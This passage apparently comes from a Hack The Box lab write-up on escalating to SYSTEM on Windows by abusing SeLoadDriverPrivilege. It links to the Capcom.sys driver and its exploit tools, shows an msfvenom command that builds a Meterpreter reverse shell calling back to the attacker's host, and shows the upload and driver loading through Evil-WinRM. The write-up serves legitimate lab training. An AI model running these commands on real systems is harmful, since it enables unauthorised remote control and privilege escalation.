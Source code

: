 I found [this](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/) article that explains how to abuse this privilege to get SYSTEM.

To abuse this privilege, we need to gather these 3 files from github:

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

[ExploitCapcom.cpp](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)

[EoPLoadDriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/)

Then we need to compile the `.cpp` files, I used Visual Studio Code on Windows. Finally we need to create our reverse shell payload, I used `msfvenom`.

```bash
finlay@kali:~/htb/fuse$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

Now that we have these four files, we need to upload them to the target. I created a temp folder in the root of the directory.

This is what you should have in the folder:

```powershell
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/31/2020   7:16 AM          10576 Capcom.sys
-a----       10/31/2020   7:14 AM          15360 EOPLOADDRIVER.exe
-a----       10/31/2020   7:14 AM         275968 ExploitCapcom.exe
-a----       10/31/2020   7:14 AM          73802 shell.exe
```

## Running the exploit

First, we need to load the driver:

```powershell
*Evil-WinRM* PS C:\temp> .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```
